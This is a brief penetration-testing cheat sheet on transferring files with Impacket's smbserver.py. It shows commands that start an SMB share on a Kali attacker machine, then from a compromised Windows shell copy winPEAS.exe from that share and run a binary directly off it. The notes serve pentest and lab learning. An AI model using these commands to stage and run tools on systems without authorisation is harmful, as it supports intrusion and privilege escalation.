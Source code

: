 # SMBServer: File Transfer

1. Obtain `smbserver.py` from [Impacket GitHub repository](https://github.com/SecureAuthCorp/impacket/tree/master/examples)

2. Start an SMB server on the attacker machine (Kali Linux)

        sudo smbserver.py -smb2support shareName $(pwd)

3. Run commands equivalent to following, in the remote Windows shell

   1. View shared files

            net view \\10.10.122.8
            dir \\10.10.122.8\shareName

    2. Copy files from attacker machine

            copy \\10.10.122.8\shareName\winPEAS.exe

    3. Execute a binary directly from SMB share

            \\10.10.122.8\share2\whoami.exe 

*Note:* To copy files from Windows to Linux, [refer this](https://comtechies.com/copy-files-between-windows-and-linux.html).

## References

* https://blog.ropnop.com/transferring-files-from-kali-to-windows/
* https://github.com/SecureAuthCorp/impacket/tree/master/examples